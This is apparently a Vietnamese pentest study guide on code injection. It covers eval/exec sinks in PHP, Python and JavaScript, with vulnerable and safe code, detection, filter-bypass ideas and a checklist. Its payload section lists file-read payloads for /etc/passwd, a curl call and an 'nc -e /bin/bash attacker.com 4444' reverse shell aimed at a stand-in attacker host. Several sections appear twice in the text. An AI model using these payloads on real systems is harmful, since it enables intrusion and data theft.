

# Code Injection

## Tài liệu tham khảo

[owasp.org/www-community/attacks/Code_Injection](https://owasp.org/www-community/attacks/Code_Injection)

[portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)

[cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)

## Bố cục nội dung

```
Code Injection
│
├── 1. Kiến thức nền
│   ├── Dynamic Evaluation là gì
│   ├── RCE và vị trí của Code Injection
│   └── Phân biệt Code Injection, Command Injection, Template Injection
│
├── 2. Code Injection
│   ├── Khái niệm
│   ├── Nguyên nhân
│   ├── Điều kiện khai thác
│   ├── Source → Sink → Runtime
│   ├── Ví dụ đơn giản
│   └── Cách phòng chống
│
├── 3. Code Sink
│   ├── PHP
│   └── Python
│
├── 4. Dynamic Evaluation
│   ├── eval()
│   └── exec()
│
├── 5. Payload
│   ├── Arithmetic payload
│   ├── Information disclosure
│   ├── File access
│   └── RCE payload
│
├── 6. Detection
│   ├── Error based
│   ├── Behavior based
│   ├── Blind
│   ├── Static review
│   └── Runtime monitoring
│
├── 7. Impact
│   ├── Information Disclosure
│   ├── Authentication Bypass
│   ├── Arbitrary File Read
│   ├── Arbitrary File Write
│   ├── RCE
│   ├── Privilege Escalation
│   └── Persistence
│
├── 8. Case Study
│   ├── PHP eval
│   ├── Python eval
│   ├── Node.js eval
│   ├── Expression Language
│   └── Real CVEs
│
└── 9. Pentest Checklist
    ├── Source
    ├── Sink
    ├── Dangerous APIs
    ├── Detection payload
    ├── Indicators
    └── Cheat Sheet
```

## 1. Kiến thức nền

### Dynamic Evaluation là gì

Dynamic Evaluation (Đánh giá động) là khả năng của một runtime để nhận một chuỗi ký tự và xử lý nó như mã nguồn hợp lệ ngay trong lúc chương trình đang chạy.

Điểm quan trọng: Chuỗi ký tự này không được viết sẵn trong mã nguồn. Nó có thể đến từ bất kỳ nguồn nào, bao gồm dữ liệu người dùng nhập vào, cơ sở dữ liệu, hoặc tệp cấu hình.

Ví dụ trực quan:

```php
<?php
// Lap trinh vien muon tinh toan bieu thuc nguoi dung nhap
$expression = $_GET['expr'];  // nguoi dung nhap: "2 + 2"
$result = eval("return $expression;");  // runtime PHP thuc thi: return 2 + 2;
echo $result;  // in ra: 4
?>
```

Ứng dụng hợp lệ của Dynamic Evaluation bao gồm: công cụ tính toán biểu thức, trình thông dịch script nội bộ, hệ thống template động, công cụ kiểm thử và debug.

Nguy cơ xuất hiện khi dữ liệu đầu vào không được kiểm soát và được đưa thẳng vào các hàm Dynamic Evaluation.

### RCE và vị trí của Code Injection

Code Injection là một trong nhiều con đường dẫn đến Remote Code Execution (RCE):

```
Command Injection   =====> RCE (thông qua shell hệ điều hành)
Code Injection      =====> RCE (thông qua runtime của ngôn ngữ)
File Upload         =====> RCE (thông qua tệp tin được thực thi)
Deserialization     =====> RCE (thông qua quá trình khôi phục đối tượng)
Template Injection  =====> RCE (thông qua engine xử lý template)
```

Điểm khác biệt của Code Injection: Mã độc chạy trực tiếp bên trong tiến trình ứng dụng, cùng quyền hạn với ứng dụng, cùng truy cập vào bộ nhớ, biến, kết nối cơ sở dữ liệu và các tài nguyên nội bộ khác của ứng dụng.

### Phân biệt Code Injection, Command Injection, Template Injection và Deserialization

Bốn lớp lỗ hổng này thường bị nhầm lẫn vì đều có thể dẫn đến RCE. Sự khác biệt nằm ở tầng xử lý dữ liệu của kẻ tấn công:

| Loại              | Mã độc chạy ở đâu                             | Ví dụ hàm nguy hiểm       | Ký tự đặc trưng                          |
| ------------------ | ---------------------------------------------------- | ----------------------------- | --------------------------------------------- |
| Code Injection     | Runtime của ngôn ngữ (PHP, Python, JS...)         | eval(), exec()                | Cú pháp của ngôn ngữ đó                |
| Command Injection  | Shell hệ điều hành (bash, cmd)                   | system(), shell_exec()        | `;` `&&` `                                |
| Template Injection | Template Engine (Jinja2, Twig, Freemarker)           | render(), template()          | `{{}}` `${}` `#{}`                      |
| Deserialization    | Runtime đọc lại đối tượng đã tuần tự hóa | unserialize(), pickle.loads() | Dữ liệu nhị phân / JSON / XML đặc biệt |

Ví dụ minh họa sự khác nhau với cùng một kết quả (chạy lệnh whoami):

```php
<?php
// Code Injection: chay trong runtime PHP
eval('system("whoami");');

// Command Injection: chay trong bash
shell_exec('whoami');
?>
```

```python
# Template Injection: chay trong Jinja2 engine
# Payload: {{ ''.__class__.__mro__[1].__subclasses__() }}

# Code Injection: chay trong Python runtime
eval("__import__('os').system('whoami')")
```

## 2. Code Injection

### Khái niệm

Code Injection là lỗ hổng bảo mật xảy ra khi một ứng dụng nhận dữ liệu từ bên ngoài (người dùng, API, cơ sở dữ liệu) và đưa dữ liệu đó vào một hàm thực thi mã nguồn động mà không qua bước kiểm soát và làm sạch.

Kết quả là đoạn mã do kẻ tấn công kiểm soát được runtime của ứng dụng thực thi trực tiếp, dẫn đến các hậu quả bảo mật nghiêm trọng.

Điểm cốt lõi: Runtime không phân biệt được đâu là mã lệnh của lập trình viên và đâu là mã lệnh do kẻ tấn công chèn vào, vì cả hai đều được đưa vào cùng một hàm thực thi.

### Nguyên nhân

Nguyên nhân gốc rễ là sự thiếu phân tách giữa mã lệnh và dữ liệu.

Các nguyên nhân cụ thể thường gặp:

* Lập trình viên sử dụng hàm eval() hoặc exec() để xử lý đầu vào động vì tính tiện lợi, mà không nhận thức được rủi ro.
* Ứng dụng cho phép người dùng nhập biểu thức toán học, chuỗi tìm kiếm hoặc tên hàm, sau đó dùng eval() để thực thi trực tiếp.
* Thiếu hoặc không có bước xác thực và làm sạch dữ liệu đầu vào trước khi đưa vào hàm thực thi.
* Sử dụng Reflection API để gọi hàm hoặc lớp theo tên được lấy từ dữ liệu người dùng.

### Điều kiện khai thác

Để khai thác Code Injection thành công, cần hội tụ đủ các điều kiện sau:

* Ứng dụng có sử dụng một hàm Dynamic Evaluation (eval, exec, call_user_func, ...).
* Dữ liệu đầu vào từ người dùng được đưa vào tham số của hàm đó mà không được kiểm soát hoặc làm sạch đầy đủ.
* Runtime có đủ quyền hạn và thư viện để thực thi đoạn mã mà kẻ tấn công muốn chạy.
* Kết quả thực thi có thể quan sát được (qua phản hồi HTTP, log, hoặc kênh ngoài).

### Source, Sink và Runtime

Luồng dữ liệu trong lỗ hổng Code Injection được phân tích theo mô hình Source, Sink và Runtime:



Source là điểm dữ liệu vào ứng dụng từ bên ngoài. Sink là hàm thực thi mã động. Runtime là nơi mã độc thực sự được chạy với đầy đủ quyền hạn của ứng dụng.

### Ví dụ đơn giản

Tình huống: Một ứng dụng PHP cung cấp chức năng tính toán biểu thức toán học cho người dùng nhập vào.

Mã nguồn lỗi:

```php
<?php
// Source: Nhan bieu thuc tu nguoi dung
$expression = $_GET['calc'];

// Sink: Thuc thi truc tiep khong qua kiem soat
eval("echo ($expression);");
?>
```

Người dùng bình thường gửi: `calc=2+2`, ứng dụng thực thi `echo (2+2);` và trả về `4`.

Kẻ tấn công gửi: `calc=phpinfo()`, ứng dụng thực thi `echo (phpinfo());` và trả về toàn bộ thông tin cấu hình PHP của máy chủ.

Kẻ tấn công gửi tiếp: `calc=system('whoami')`, ứng dụng thực thi lệnh hệ thống và trả về tên người dùng đang chạy máy chủ web.

Mã nguồn an toàn:

```php
<?php
$expression = $_GET['calc'];

// Chi cho phep chuoi chua chu so va toan tu toan hoc co ban
if (!preg_match('/^[0-9+\-*\/\.\(\)\s]+$/', $expression)) {
    die('Chi chap nhan bieu thuc toan hoc hop le');
}

// Thay vi dung eval, su dung thu vien tinh toan an toan
$result = calculateExpression($expression);
echo $result;
?>
```

### Cách phòng chống

Các biện pháp phòng chống theo thứ tự ưu tiên:

Biện pháp 1: Tránh hoàn toàn việc sử dụng hàm Dynamic Evaluation. Đây là biện pháp triệt để nhất. Nếu yêu cầu nghiệp vụ có thể giải quyết bằng cách khác thì không dùng eval().

Biện pháp 2: Nếu bắt buộc phải dùng, áp dụng whitelist nghiêm ngặt. Chỉ cho phép đúng tập ký tự cần thiết, từ chối tất cả còn lại.

Biện pháp 3: Chạy đoạn mã trong môi trường sandbox tách biệt hoàn toàn với ứng dụng gốc, giới hạn quyền hạn và tài nguyên truy cập.

Biện pháp 4: Áp dụng nguyên tắc quyền tối thiểu (Principle of Least Privilege) cho tiến trình chạy ứng dụng.

Biện pháp 5: Ghi nhật ký toàn bộ dữ liệu đi vào các hàm Dynamic Evaluation để phát hiện hành vi bất thường.

## 3. Code Sink

Code Sink là các hàm và cơ chế trong ngôn ngữ lập trình có khả năng thực thi chuỗi ký tự như mã lệnh. Đây là điểm mà dữ liệu người dùng trở thành mã lệnh được thực thi bởi runtime.

### PHP

| Hàm / Cơ chế                         | Mô tả                                                             | Mức độ nguy hiểm |
| --------------------------------------- | ------------------------------------------------------------------- | -------------------- |
| `eval()`                              | Thực thi chuỗi như mã PHP                                       | Rất cao             |
| `assert()`                            | Trong PHP cũ (< 8), nhận chuỗi và thực thi như PHP            | Cao                  |
| `preg_replace()` với modifier `/e` | Thực thi kết quả thay thế như PHP (đã bị loại khỏi PHP 7) | Rất cao             |
| `call_user_func()`                    | Gọi hàm theo tên được truyền dưới dạng chuỗi             | Cao                  |
| `call_user_func_array()`              | Tương tự nhưng tham số là mảng                               | Cao                  |
| `create_function()`                   | Tạo hàm từ chuỗi mã nguồn (đã bị loại khỏi PHP 8)        | Rất cao             |
| `$$variable` (Variable Variables)     | Truy cập biến theo tên được lưu trong biến khác            | Trung bình          |

Ví dụ nguy hiểm với `call_user_func()`:

```php
<?php
// Nguoi dung truyen ten ham can goi
$func_name = $_GET['action'];  // attacker truyen: "system"
$param = $_GET['param'];        // attacker truyen: "whoami"

// Goi ham theo ten, tuong duong voi system("whoami")
call_user_func($func_name, $param);
?>
```

### Python

| Hàm / Cơ chế            | Mô tả                                             | Mức độ nguy hiểm  |
| -------------------------- | --------------------------------------------------- | --------------------- |
| `eval()`                 | Thực thi biểu thức Python và trả về giá trị | Rất cao              |
| `exec()`                 | Thực thi khối mã Python tùy ý                  | Rất cao              |
| `compile()` + `exec()` | Biên dịch chuỗi thành bytecode rồi thực thi   | Rất cao              |
| `__import__()`           | Import module theo tên chuỗi                      | Cao                   |
| `getattr()`              | Lấy thuộc tính hoặc hàm theo tên chuỗi       | Trung bình đến cao |

Ví dụ nguy hiểm với `eval()` trong Python:

```python
# Tinh toan bieu thuc nguoi dung nhap
expression = input("Nhap bieu thuc: ")  # attacker nhap: "__import__('os').system('id')"
result = eval(expression)               # Runtime Python thuc thi lenh id tren he dieu hanh
print(result)
```

> 📌 **Ngôn ngữ khác (xem thêm khi đã vững nền):**
> JavaScript, Java, Ruby, và .NET cũng có các cơ chế Dynamic Evaluation tương tự. Khi đã hiểu rõ mô hình Source → Sink → Runtime, việc nhận diện sẽ áp dụng được sang các ngôn ngữ khác theo cùng nguyên lý.

## 4. Dynamic Evaluation

### eval()

`eval()` là hàm phổ biến nhất và nguy hiểm nhất trong nhóm Dynamic Evaluation. Hàm này nhận một chuỗi ký tự và yêu cầu runtime của ngôn ngữ xử lý chuỗi đó như một đoạn mã nguồn hợp lệ.

Ví dụ so sánh hành vi:

```python
# Binh thuong: chuoi chi la du lieu
s = "1 + 1"
print(s)       # In ra: 1 + 1 (chuoi ky tu)

# Voi eval: chuoi tro thanh lenh
result = eval("1 + 1")
print(result)  # In ra: 2 (ket qua tinh toan)

# Nguy hiem: chuoi tuy y tro thanh lenh
result = eval("__import__('os').getcwd()")
print(result)  # In ra: /var/www/html (thu muc lam viec hien tai)
```

### exec()

`exec()` khác với `eval()` ở chỗ nó thực thi được cả khối mã (nhiều dòng, khai báo hàm, vòng lặp...) thay vì chỉ biểu thức đơn.

```python
# eval chi chap nhan bieu thuc don
# eval("x = 1 + 1")  # Loi: khong the gan bien bang eval

# exec chap nhan ca khoi ma nhieu dong
exec("""
x = 10
y = 20
def add(a, b):
    return a + b
result = add(x, y)
print(result)
""")
# Ket qua: In ra 30
```

Đây là lý do exec() nguy hiểm hơn eval(): Kẻ tấn công có thể định nghĩa hàm, vòng lặp, import module, và thực hiện bất kỳ thao tác nào mà Python hỗ trợ.

> 📌 **Cơ chế nâng cao (xem thêm khi đã vững nền):**
> Ngoài `eval()` và `exec()`, còn có các cơ chế Dynamic Evaluation khác đáng lưu ý khi kiểm tra: `new Function()` trong JavaScript, Reflection API trong PHP/Java, và Dynamic Import trong Python/Node.js.

```python
# Binh thuong: chuoi chi la du lieu
s = "1 + 1"
print(s)       # In ra: 1 + 1 (chuoi ky tu)

# Voi eval: chuoi tro thanh lenh
result = eval("1 + 1")
print(result)  # In ra: 2 (ket qua tinh toan)

# Nguy hiem: chuoi tuy y tro thanh lenh
result = eval("__import__('os').getcwd()")
print(result)  # In ra: /var/www/html (thu muc lam viec hien tai)
```

### exec()

`exec()` khác với `eval()` ở chỗ nó thực thi được cả khối mã (nhiều dòng, khai báo hàm, vòng lặp...) thay vì chỉ biểu thức đơn.

```python
# eval chi chap nhan bieu thuc don
# eval("x = 1 + 1")  # Loi: khong the gan bien bang eval

# exec chap nhan ca khoi ma nhieu dong
exec("""
x = 10
y = 20
def add(a, b):
    return a + b
result = add(x, y)
print(result)
""")
# Ket qua: In ra 30
```

Đây là lý do exec() nguy hiểm hơn eval(): Kẻ tấn công có thể định nghĩa hàm, vòng lặp, import module, và thực hiện bất kỳ thao tác nào mà Python hỗ trợ.

### Function() (JavaScript)

Trong JavaScript, `new Function(args, body)` tạo một hàm mới từ chuỗi mã nguồn:

```javascript
// Tao ham tu chuoi - tuong duong viet ham trong code
const add = new Function('a', 'b', 'return a + b');
console.log(add(1, 2));  // In ra: 3

// Nguy hiem: attacker kiem soat phan body
const userBody = "return require('child_process').execSync('id').toString()";
const malicious = new Function(userBody);
console.log(malicious());  // Thuc thi lenh he thong
```

Sự khác biệt so với `eval()`: `new Function()` luôn tạo hàm ở phạm vi global, không thể truy cập biến cục bộ. Điều này làm nó hơi an toàn hơn `eval()` trong ngữ cảnh truy cập biến, nhưng vẫn hoàn toàn nguy hiểm khi chạy lệnh hệ thống.

### Reflection

Reflection là cơ chế cho phép chương trình tự quan sát và thao tác với cấu trúc của chính nó trong lúc chạy. Kẻ tấn công có thể lợi dụng Reflection để gọi bất kỳ hàm hoặc lớp nào bằng chuỗi ký tự do người dùng kiểm soát.

Ví dụ Reflection trong PHP:

```php
<?php
// Tao doi tuong theo ten lop nguoi dung truyen
$class_name = $_GET['class'];  // attacker truyen: "ReflectionFunction"
$method = $_GET['method'];      // attacker truyen: "export"

$obj = new $class_name();  // Tao doi tuong bat ky
$obj->$method();           // Goi phuong thuc bat ky
?>
```

Ví dụ Reflection trong Java:

```java
// Ten lop va phuong thuc lay tu nguoi dung
String className = request.getParameter("class");
String methodName = request.getParameter("method");

// Tai lop theo ten chuoi
Class<?> clazz = Class.forName(className);
Object obj = clazz.getDeclaredConstructor().newInstance();

// Goi phuong thuc theo ten chuoi
Method method = clazz.getMethod(methodName);
method.invoke(obj);  // Thuc thi bat ky phuong thuc nao
```

### Dynamic Import

Dynamic Import cho phép nạp và sử dụng module trong lúc chạy dựa trên tên module được xác định động:

```python
# Python: import module theo ten chuoi
module_name = request.args.get('module')  # attacker truyen: "os"
module = __import__(module_name)
func_name = request.args.get('func')      # attacker truyen: "system"
getattr(module, func_name)("whoami")      # Thuc thi os.system("whoami")
```

```javascript
// Node.js: require theo ten chuoi
const moduleName = req.query.mod;  // attacker truyen: "child_process"
const mod = require(moduleName);
const funcName = req.query.func;   // attacker truyen: "execSync"
mod[funcName]('id');               // Thuc thi child_process.execSync("id")
```

### Vì sao Dynamic Evaluation nguy hiểm

Dynamic Evaluation nguy hiểm vì nó xóa bỏ hoàn toàn ranh giới giữa dữ liệu và mã lệnh:

* Không phân biệt được đâu là ý định của lập trình viên: Runtime chỉ biết thực thi, không biết chuỗi đến từ đâu.
* Mã chạy với toàn bộ quyền hạn của ứng dụng: Không có sandbox mặc định.
* Mã có thể truy cập mọi thứ trong tiến trình: Biến, kết nối cơ sở dữ liệu, session, bộ nhớ.
* Một hàm eval() là đủ để biến toàn bộ ứng dụng thành công cụ tấn công.

## 5. Payload mẫu

Payload trong Code Injection không chỉ là đoạn mã độc đơn thuần, mà còn là cách kẻ tấn công thử nhiều kiểu thực thi khác nhau để xác nhận lỗ hổng.

### Payload khai thác thông tin

```php
phpinfo();
```

```python
__import__('os').system('id')
```

```javascript
require('child_process').execSync('whoami').toString()
```

### Payload truy cập file

```php
file_get_contents('/etc/passwd');
```

```python
open('/etc/passwd').read()
```

### Payload thực thi lệnh

```php
system('whoami');
```

```python
__import__('os').system('whoami')
```

### Payload RCE

```php
exec('curl http://attacker.com/');
```

```python
__import__('os').system('nc -e /bin/bash attacker.com 4444')
```

### Payload khai thác thông tin

```php
phpinfo();
```

```python
__import__('os').system('id')
```

```javascript
require('child_process').execSync('whoami').toString()
```

### Payload truy cập file

```php
file_get_contents('/etc/passwd');
```

```python
open('/etc/passwd').read()
```

### Payload thực thi lệnh

```php
system('whoami');
```

```python
__import__('os').system('whoami')
```

### Payload sandbox escape

Trong một số môi trường sandbox, kẻ tấn công có thể tìm cách thoát khỏi giới hạn bằng cách truy cập tới các module hoặc API cho phép thực thi mã ngoài phạm vi kiểm soát.

### Payload RCE

```php
exec('curl http://attacker.com/');
```

```python
__import__('os').system('nc -e /bin/bash attacker.com 4444')
```

## 6. Detection

### Error-based

Phát hiện bằng cách tạo input gây lỗi để xem runtime có phản hồi lỗi cụ thể hay không. Nếu ứng dụng trả về traceback, syntax error, hoặc stack trace, đây là dấu hiệu rất quan trọng.

### Behavior-based

Thay đổi đầu vào và quan sát hành vi ứng dụng, như:

* phản hồi khác nhau,
* thời gian phản hồi tăng,
* file được tạo hoặc đọc,
* lệnh hệ thống được thực thi.

### Blind detection

Khi không thể thấy kết quả trực tiếp, ta có thể dùng kỹ thuật:

* Boolean-based: thử điều kiện đúng/sai để quan sát phản hồi khác nhau.
* Time-based: dùng payload làm chậm phản hồi nếu điều kiện đúng.
* Out-of-band: dùng kết nối ra ngoài để xác nhận việc thực thi xảy ra.

### Static review

Đọc mã nguồn để tìm các sink nguy hiểm như:

* eval(), exec(), assert()
* new Function(), setTimeout(string)
* Reflection, dynamic import

### Runtime monitoring

Giám sát log, exception, process, và các hoạt động hệ thống để phát hiện phần mềm đang chạy mã bất thường.

## 7. Bypass

### Blacklist bypass

Một số ứng dụng cố gắng chặn các ký tự nguy hiểm bằng blacklist. Kẻ tấn công có thể绕过 bằng cách:

* dùng biến thể ký tự tương đương,
* thay đổi cách viết,
* chèn khoảng trắng hoặc ký tự không nhìn thấy,
* chia payload thành nhiều phần rồi nối lại.

### Encoding

Mã hóa payload bằng:

* URL encoding,
* HTML encoding,
* Base64,
* Unicode escape.

Ví dụ, chuỗi có thể được mã hóa và sau đó được giải mã trước khi đưa vào hàm eval/exec.

### String concatenation

Thay vì truyền payload nguyên bản, kẻ tấn công có thể nối nhiều đoạn dữ liệu để tạo thành mã lệnh hợp lệ.

### Reflection

Lợi dụng cơ chế reflection hoặc dynamic import để gọi hàm theo tên chuỗi có thể bypass kiểm soát đơn giản.

### Filter bypass

Một số filter chặn từ khóa như `eval`, `system`, `exec`. Trong thực tế, kẻ tấn công có thể dùng cách thay thế như:

* `__import__`
* `getattr`
* `globals()` / `locals()`
* các ký tự không chuẩn hoặc escape.

## 8. Impact

Code Injection có thể dẫn tới nhiều hậu quả nghiêm trọng:

* Information Disclosure: lộ thông tin nhạy cảm như cấu hình, file hệ, biến môi trường.
* Authentication Bypass: ghi đè logic xác thực hoặc truy cập trái phép.
* Arbitrary File Read/Write: đọc hoặc ghi các tệp trên máy chủ.
* Command Execution: chạy lệnh hệ điều hành.
* Privilege Escalation: nâng cấp quyền thực thi của ứng dụng.
* Remote Code Execution (RCE): điều khiển hoàn toàn hệ thống mục tiêu.
* Persistence: cài đặt backdoor hoặc malware dài hạn.

## 8. Case Study

### PHP eval

```php
<?php
$expr = $_GET['expr'];
eval("echo ($expr);");
?>
```

Nếu `expr=phpinfo()`, ứng dụng có thể lộ cấu hình PHP.

### Python exec

```python
code = input("Nhập mã: ")
exec(code)
```

Đây là ví dụ điển hình về việc runtime Python thực thi mã do người dùng kiểm soát.

### Node.js eval

```javascript
const expr = req.query.expr;
const result = new Function(`return ${expr}`)();
```

Nếu đầu vào chứa mã thực thi hệ thống, ứng dụng có thể bị compromise.

### Template Engine / Expression Language

Một số framework dùng template engine hoặc expression language để render nội dung. Nếu đầu vào được đưa trực tiếp vào engine mà không được kiểm soát, có thể xảy ra lỗ hổng ở tầng template hoặc expression.

### Real CVEs / Real-world examples

Nhiều ứng dụng web và framework từng bị khai thác vì dùng dynamic eval hoặc expression engine không an toàn. Đây là lý do vì sao các nhà phát triển cần luôn tránh việc thực thi chuỗi đầu vào trực tiếp.

## 9. Pentest Checklist

### Source

* Xác định các tham số HTTP: GET, POST, Cookie, Header.
* Kiểm tra dữ liệu từ database, file, API, hoặc môi trường.

### Sink

* Tìm các hàm nguy hiểm: eval, exec, assert, create_function, new Function, Reflection, dynamic import.

### Dangerous APIs

* Kiểm tra xem ứng dụng có gọi API cho phép thực thi mã hay không.
* Xem có lộ các API như `call_user_func`, `__import__`, `getattr`, `vm.runInThisContext` hay không.

### Detection payload

* Thử payload đơn giản như `1+1`, `phpinfo()`, `id`, `whoami`.
* Nếu có phản hồi khác biệt, có thể là dấu hiệu của lỗ hổng.

### Indicators

* Error message lộ traceback.
* Thời gian phản hồi tăng bất thường.
* Xuất hiện file hoặc process mới.
* Ứng dụng phản hồi dữ liệu mà bình thường không nên.

### Cheat Sheet

* Luôn kiểm tra đầu vào trước khi đưa vào sink.
* Ưu tiên loại bỏ dynamic evaluation.
* Dùng whitelist và least privilege.
* Xác nhận bằng payload đơn giản trước khi thử RCE.
* Ghi chép rõ luồng Source → Sink → Runtime → Impact.

> **Nội dung nâng cao (xem thêm khi đã vững nền):**
> Các mục sau đây dành cho người đã nắm vững các khái niệm cơ bản:
>
> - **Bypass kỹ thuật** — Blacklist bypass, encoding, string concatenation, sandbox escape, filter bypass.
> - **JavaScript / Node.js Code Sink** — `new Function()`, `vm.runInThisContext()`, `vm.runInNewContext()`.
> - **Java / Ruby / .NET Code Sink** — ScriptEngine, Groovy, Expression Language, Reflection API, Roslyn Scripting.
> - **Dynamic Import** — `__import__()` trong Python, `require()` trong Node.js.
